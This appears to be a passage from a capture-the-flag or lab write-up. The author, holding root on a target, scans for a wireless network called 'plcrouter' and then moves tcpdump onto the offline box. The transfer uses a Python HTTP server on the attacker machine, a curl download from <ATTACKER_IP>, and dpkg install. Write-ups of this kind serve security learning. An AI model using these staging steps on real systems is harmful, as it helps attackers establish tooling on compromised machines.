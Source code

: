 And with `iwlist` I scanned for networks.

__Command:__ `iwlist wlan0 scan`

![Screenshot11](./screenshots/11.png)

From the network interface `wlan0` there is another network called `plcrouter`.

If we are not dealing with a container breakout here, it is likely that we have to compromise this WLAN.

<br>

### Install Tools

Since I was root user, I should be able to install other useful tools.

But how do we do that if the box has no internet?

1. On Attacker Machine: `apt download tcpdump`
2. On Attacker Machine: `python3 -m http.server 8080`
3. On Target Machine: `curl http://<ATTACKER_IP>:8080/tcpdump.deb -o tcpdump.deb`
4. On Target Machine: `dpkg -i tcpdump.deb`

Well, this also had to be done with all the dependencies.

It was a bit of a pain, but at least it worked and gave me new possibilities.
